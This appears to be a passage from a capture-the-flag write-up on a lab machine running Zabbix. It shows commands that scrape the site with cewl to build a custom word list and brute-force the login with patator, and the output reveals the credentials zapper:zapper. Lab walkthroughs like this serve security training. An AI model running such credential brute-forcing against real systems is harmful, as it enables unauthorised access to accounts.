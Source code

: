 #### 2.1. Guest interface
```
http://10.10.10.108/zabbix/zabbix.php?action=dashboard.view
```


#### 2.2. Custom word lists for brute-force

1. scrape the website (collect words from different pages)
```
# ./cewl.rb http://10.10.10.108/zabbix/ --min_word_length 6 --write /tmp/zipper_wordlist_6.txt
```

2. sort word-list for unique entries
```
# sort /tmp/zipper_wordlist_6.txt > /tmp/zipper_wordlist_6_sorted.txt
# cat /tmp/zipper_wordlist_6_sorted.txt | tr 'A-Z' 'a-z' > /tmp/zipper_wordlist_6_sorted.txt
# sort -u /tmp/zipper_wordlist_6_sorted.txt > /tmp/zipper_wordlist_6_unique.txt
```

3. compare lists
```
# wc -l /tmp/zipper_wordlist_6_sorted.txt /tmp/zipper_wordlist_6_unique.txt
 136 /tmp/zipper_wordlist_6_sorted.txt
 117 /tmp/zipper_wordlist_6_unique.txt
 253 total
```


#### 2.3. Bruteforce via `patator`
```
# f='/tmp/zipper_wordlist_6_unique.txt'
# url='http://10.10.10.108/zabbix/index.php'
# body='name=FILE0&password=FILE0&autologin=1&enter=Sign+in'
# ignore='Login name or password is incorrect.'
# docker run --rm -i -v $f:/tmp/f.txt patator http_fuzz \
url=$url method=POST body="$body" \
0=/tmp/f.txt -x ignore:fgrep="$ignore"
22:30:26 patator    INFO - Starting Patator v0.7 (https://github.com/lanjelot/patator) at 2018-11-21 22:30 UTC
22:30:26 patator    INFO -
22:30:26 patator    INFO - code size:clen       time | candidate                          |   num | mesg
22:30:26 patator    INFO - -----------------------------------------------------------------------------
22:30:28 patator    INFO - 200  3671:3148      0.181 | zapper                             |   116 | HTTP/1.1 200 OK
22:30:29 patator    INFO - Hits/Done/Skip/Fail/Size: 1/117/0/0/117, Avg: 37 r/s, Time: 0h 0m 3s
```
Note: Login message for `zapper:zapper` is `GUI access disabled.`
